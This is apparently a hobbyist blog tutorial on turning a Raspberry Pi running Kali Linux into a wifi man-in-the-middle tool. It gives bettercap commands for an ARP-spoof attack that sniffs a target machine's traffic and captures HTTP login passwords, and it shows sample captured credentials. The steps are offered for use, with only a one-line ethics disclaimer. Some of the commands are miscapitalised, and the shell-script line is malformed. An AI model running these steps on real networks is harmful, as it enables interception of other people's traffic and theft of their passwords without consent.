








RaspberryPi + Linux + BetterCap
Wifi security is important. From a security perspective it can often be a weak point. Here are some cool penetration testing tools to prod at your local wireless network security. Note: Always using hacking for good, including the following.
Raspi’s are awesome. We are going to use one, in combination with an external wifi card, to grab passwords that our target machine is submitting into a webpage. We will be using an arp spoof attack to mitm our target machine and read their network traffic.
The Raspi programming is installing a linux distro on an sd card. In this case a RaspberryPi may even be a bit of overkill, in terms of resources. It would be cool to get these tools on an even smaller form factor like some kind of arduino with a on-board packet injection supported wifi chip -- project for another day.
Today we are using these:
 
Step one is downloading Kali Linux and burning it to an sd card. Here is some documentation on how do that.

Once you bask in the glory of your new Kali Linux box you’ll want to connect your external wifi card and get it into monitor mode.
Note: You will need an external wifi card that supports packet injection and monitor mode.
This is my favorite one.
Find your WiFi card name in iwconfig
And set it to monitor mode with these commands:
Ifconfig wlan1 down
Iwconfig wlan1 mode monitor
Ifconfig wlan1 up
Turn those commands into a shell script for convenience:
echo "Ifconfig wlan1 down
Iwconfig wlan1 mode monitor
Ifconfig wlan1 up > monmode.sh"

There are a lot of tools to perform mitm attacks. We are going to be using bettercap to arp spoof our target machine.
Launch bettercap in the command line:
Bettercap
Use the ‘help’ command to see the modules you are currently running:

You will want to turn net.probe and net.recon on:
net.probe on
net.recon on
Run net.show to see the other devices connected to your network:
Find your target machine and note it’s IP address.
Next set up your arp.spoof with these commands:
set arp.spoof.fullduplex true
set arp.spoof.targets [Target IP]

Once that is done your bettercap modules should look like this:

Now start the net.sniff module:
net.sniff on
If your target machine is generating traffic, bettercap will immediately start looking thru it and presenting you with the interesting stuff:

It will even capture passwords over http traffic:

Username: Admin
Password: zack123